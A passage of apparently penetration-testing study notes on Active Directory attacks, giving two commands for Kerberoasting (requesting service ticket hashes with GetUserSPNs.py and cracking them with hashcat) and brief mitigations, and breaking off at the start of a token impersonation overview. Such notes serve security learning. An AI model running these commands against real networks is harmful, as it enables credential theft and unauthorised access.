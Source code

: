 ![Kerberoasting](./pictures/kerberoasting.png)

1. Get SPNs, dump hash
`python GetUserSPNs.py DOMAIN/username:password -dc-ip 10.0.0.1 -request`

2. Crack the hash
`hashcat -m 13100 kerberoast.txt rockyou.txt`

### Kerberoasting Mitigation

Mitigation Strategies:

- Strong passwords
- Least privilege

### Token Impersonation Overview

**Token Impersonation**

What are tokens?

- Temporary keys that allow you access to a system/network without having to provide credentials each time 
you access a file. Think of cookies
